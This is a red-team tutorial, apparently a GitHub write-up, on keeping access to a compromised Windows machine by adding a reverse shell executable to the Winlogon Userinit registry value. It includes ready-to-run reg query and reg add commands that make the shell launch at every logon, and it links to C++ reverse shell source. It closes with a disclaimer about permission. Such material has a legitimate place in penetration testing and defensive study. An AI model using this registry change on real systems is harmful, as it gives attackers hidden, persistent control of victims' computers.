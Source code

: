 # Windows Persistence Using WinLogon Reverse Shell

## Introduction
In this guide, I'll walk you through a method to establish persistence on Windows systems by leveraging the widely utilized WinLogon component.

## What is Persistence?
> Note : This guide is part of the HackerSploit Red Team series of guides. To navigate to other guides in the series, visit: https://www.linode.com/docs/guides/windows-red-team-persistence-techniques/

Persistence refers to techniques attackers use to maintain access to a system despite reboots, credential changes, or other disruptions that might otherwise terminate their connection. These methods involve actions, configurations, or code modifications that ensure continued access, such as altering legitimate programs or injecting code into startup processes.

In simpler terms, persistence allows you to keep control over a compromised machine, regaining your access even after the system restarts, without needing to reinfect the target.

## What is WinLogon?

WinLogon is a critical Windows component responsible for managing tasks like user logon, logoff, loading user profiles during authentication, system shutdowns, and handling the lock screen. These actions are controlled via the Windows registry, which specifies what processes launch during logon events. For red team operations, these events can serve as triggers to execute custom payloads, enabling persistent access.

> For more details : https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/

Now that we’ve covered the basics, let’s dive into achieving persistence with WinLogon.

## Proof of Concept (PoC)
For this demonstration, I’ll use a file named `shell.exe`, a reverse shell crafted in C++. You can find the source code here:

[GitHub - S12cybersecurity/Reverse-Shell-C-PlusPlus](https://github.com/S12cybersecurity/Reverse-Shell-C-PlusPlus)  
> Note: This is a modified version of a simple C++ reverse shell, originally shared by cocomelonc.

Let’s get started, assuming an active reverse shell is already running on the target system.

![1](https://github.com/user-attachments/assets/fa09ae81-8c57-48e1-9b8d-11a6839c214e)

### Step 1: Inspect the Registry
Run the following command to check the current `Userinit` value in the WinLogon registry key:

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
```

![2](https://github.com/user-attachments/assets/023a98fc-b653-4adc-bd59-aadae5b86b4a)

### Step 2: Confirm the Current Winlogon Setting
First, query the existing value to verify the current state:

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
```

You’ll usually see something like:

```text
Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
```

This is the default behavior — it runs the `userinit.exe` process, which is responsible for starting the user environment after login.

![3](https://github.com/user-attachments/assets/e3ae5805-dd8d-48d0-97b5-28d443618735)

### Step 3: Inject Your Shell into the Winlogon Process
Now, we’ll modify this value to include our reverse shell binary (`shell.exe`) alongside the legitimate executable.

Run the following command in an elevated command prompt (as Administrator):

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\system32\userinit.exe, C:\Users\s12de\Downloads\shell.exe" /f
```
![4](https://github.com/user-attachments/assets/2e8718fc-e82d-4964-986f-f7bf5c4e9868)

This modification ensures that every time a user logs in, logs out, or locks/unlocks their system, both the legitimate `userinit.exe` and your custom reverse shell (`shell.exe`) are executed automatically.

![5](https://github.com/user-attachments/assets/3770d815-4d33-41e5-8fe2-8398fb99b4af)

## Conclusion
Using the **Winlogon Userinit** registry key provides a discreet and persistent method to retain access on a Windows machine.  
Because it’s deeply embedded in the system’s authentication routine, it serves as a dependable point to execute your custom payload.

> ⚠️ **Important:** This information is shared for educational purposes only. Always ensure you have explicit permission before testing or deploying such techniques.

---

Thanks for reading!  
**— S12**
